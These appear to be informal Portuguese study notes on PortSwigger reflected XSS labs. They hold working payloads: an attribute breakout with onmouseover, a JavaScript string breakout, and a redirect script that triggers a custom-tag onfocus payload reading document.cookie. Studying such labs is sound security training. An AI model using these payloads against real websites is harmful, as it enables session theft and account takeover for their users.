

# Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into attribute with angle brackets HTML-encoded

testXSSsmokingsn4ke" onmouseover="alert()"

## Reflected XSS into a JavaScript string with angle brackets HTML encoded

pela natureza retardada do js  a funcao pode ser passada diretamente com + pq ele vai pensar

que a func vai retornar uma string e dai fazer o concat

' \+ alert('Xss') + '

"smoking" "smoking%2525">&lt;u&gt;"

html parsers browsers interpretam coisas diferentes

writeups facebooks xss

testa uma string random como 12312321k32132, e veja aonde está sendo refletida na pagina e tente

sair do seu contexto.

Reflected XSS into HTML context with all tags blocked except custom ones

aqui ele ta usando o redirect do site malicioso do atacante para o site vulneravel, fazendo uso do bookmark #x para fazer o xss ser automatico

https://developer.mozilla.org/pt-BR/docs/Web/HTML/Global_attributes/tabindex

o tabindex eh que faz o objeto ser focavel, pois nem todos são.

&lt;script&gt;

location='url/&lt;xss onfocus='alert(document.cookie)' id='x' tabindex='1'/&gt;#x'

&lt;/script&gt;